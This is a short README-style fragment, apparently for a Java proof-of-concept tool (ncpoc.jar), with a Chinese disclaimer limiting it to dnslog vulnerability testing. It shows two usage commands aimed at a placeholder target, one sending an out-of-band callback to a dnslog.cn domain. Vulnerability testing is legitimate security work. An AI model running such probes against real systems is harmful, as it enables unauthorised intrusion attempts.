 此工具仅能dnslog漏洞测试，不可用于非法用途
java -jar ncpoc.jar http://target.com
java -jar ncpoc.jar http://target.com Servlet xxx.dnslog.cn
